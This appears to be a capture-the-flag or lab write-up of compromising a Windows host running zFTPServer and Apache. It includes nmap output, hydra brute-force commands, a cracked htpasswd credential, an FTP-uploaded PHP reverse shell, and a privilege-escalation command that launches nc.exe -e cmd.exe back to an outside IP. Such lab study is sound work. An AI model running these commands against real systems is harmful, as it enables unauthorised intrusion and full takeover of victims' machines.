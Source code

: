 #InProgress 
```IP
192.168.224.46
```
## Nmap
```
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                
| total 9680     
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Oct 24 14:39 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Aug 03 03:34 accounts
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8                                                                 
| http-methods:                                                                                                       
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth:                                  
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125
```

## Nmap UDP


# Enumeration
## FTP 21
zFTPServer v6.0
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.224.46
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103412.png?raw=true)
Found a hash in .htpasswd as admin:admin
```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```
```
offsec:elite
```

we create reverse shell to upload since we have direct access to the apache server root directory
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112748.png?raw=true)
we upload it with ftp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112843.png?raw=true)

we then navigate to http://target:242/run.php and listen on 4444 to get revshell
## FTP 3145
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103427.png?raw=true)

## HTTP 242
Bruteforce attempt 1
```
hydra -I -V -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -t 1 "http-get://192.168.224.46:242/:A=BASIC:F=401"
```

offsec:elite credentials work
trying to fuzz with them, but nothing came up
```
ffuf -request get.req -request-proto http -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -ac
```

## RDP
offsec:elite credentials not working
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024113324.png?raw=true)

```
.\jp.exe -l 1337 -t * -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.45.235 443"
```
now we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024120433.png?raw=true)
## Automated

### Peass
### Mimikatz

